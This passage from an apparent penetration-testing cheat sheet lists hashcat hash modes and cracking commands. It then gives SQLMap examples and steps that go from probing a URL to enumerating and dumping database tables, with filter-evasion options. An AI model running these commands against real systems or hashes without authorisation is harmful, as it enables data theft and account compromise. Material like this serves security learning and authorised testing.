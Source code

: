 **Common Hash Types:**
| Hash Type      | Mode   |
|----------------|--------|
| MD5            | 0      |
| SHA1           | 100    |
| SHA256         | 1400   |
| NTLM (Windows) | 1000   |
| bcrypt         | 3200   |
| WPA/WPA2       | 22000  |

**Usage Examples:**
```sh
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 -a 0 ntlm_hashes.txt passwords.txt
hashcat -m 22000 -a 3 handshake.hc22000 ?d?d?d?d?d?d?d?d
hashcat -m 0 -a 3 hashes.txt ?l?l?l?l?l
hashcat --restore
hashcat -m 0 --show hashes.txt
```

## 4. SQLMap: Automated SQL Injection Tool

SQLMap automates the process of detecting and exploiting SQL Injection vulnerabilities.

**Usage:**
```sh
sqlmap -u [URL] [options]
```

**Usage Examples:**
```sh
sqlmap -u "http://example.com/page.php?id=1"
sqlmap -u "http://example.com/page.php?id=1" --dbs
sqlmap -u "http://example.com/page.php?id=1" -D database_name --tables
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name --dump
sqlmap -u "http://example.com/page.php?id=1" --tamper=between
sqlmap -u "http://example.com/login.php" --data="username=admin&password=1234"
sqlmap -u "http://example.com/page.php?id=1" --batch --risk=3 --level=5
```

**Steps:**
1. Check if the Website is Vulnerable:
    ```sh
    sqlmap -u "http://example.com/vulnerable_param=1"
    ```
2. Fingerprint the Database:
    ```sh
    sqlmap -u "http://example.com/index.php?id=1" --banner
    ```
3. Enumerate Databases:
    ```sh
    sqlmap -u "http://example.com/index.php?id=1" --dbs
    ```
4. Select a Specific Database:
    ```sh
    sqlmap -u "http://example.com/index.php?id=1" -D database_name --tables
    ```
5. Enumerate Columns in a Table:
    ```sh
    sqlmap -u "http://example.com/index.php?id=1" -D database_name -T table_name --columns
    ```
6. Dump Data from Specific Columns: